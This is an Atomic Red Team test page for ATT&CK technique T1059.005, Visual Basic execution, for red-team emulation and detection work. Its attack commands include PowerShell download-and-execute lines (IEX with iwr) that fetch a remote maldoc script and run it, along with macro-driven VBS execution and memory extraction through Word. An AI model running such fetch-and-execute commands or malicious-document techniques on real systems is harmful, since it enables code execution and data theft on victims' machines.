 # T1059.005 - Command and Scripting Interpreter: Visual Basic
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)
<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads (which may also involve [Mark-of-the-Web Bypass](https://attack.mitre.org/techniques/T1553/005) to enable execution).(Citation: Default VBS macros Blocking )</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)


<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information
Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 1620de42-160a-4fe5-bbaf-d3fef0181ce9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript | Path to sample script | string | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs|


#### Attack Commands: Run with `powershell`! 


```powershell
cscript "#{vbscript}" > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{vbscript})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vbscript}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "#{vbscript}") -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "#{vbscript}"
```




<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution
This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word

**Supported Platforms:** Windows


**auto_generated_guid:** e8209d5f-e42d-45e6-9c2f-633ac4f1eefa






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:
```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA
This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.

**Supported Platforms:** Windows


**auto_generated_guid:** 8faff437-a114-4547-9a60-749652a03df6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
